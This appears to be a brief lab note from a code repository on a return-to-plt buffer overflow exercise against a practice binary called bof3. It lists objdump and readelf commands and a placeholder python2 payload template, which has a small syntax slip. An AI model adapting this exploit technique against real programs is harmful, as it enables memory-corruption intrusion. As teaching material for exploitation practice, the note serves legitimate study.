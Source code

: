 # Buffer Overflow : return to plt

# TARGET FILE : bof3
# SORUCE FILE : bof3.c

***TASK1***
Q.) How to Find plt section in elf file? <br>
A.) use objdump option with -j ".plt" <br>

How To) <br>
objdump -d -M intel -j .plt bof3 <br>

***TASK2***
Q.) How to Find global Variable ? <br>
A.) user readelf tool with -s <br>

How To) <br>
readelf -s bof3 |grep GLOBAL <br>

***TASK3***
Q.) plt Payloads? <br>
A.) Command This <br>

python2 -c "print 'a'*offset '{plt section function address}'+'BBBB'+'{GLOBAL VARIABLE ADDRESS}'" | ./target_file <br>
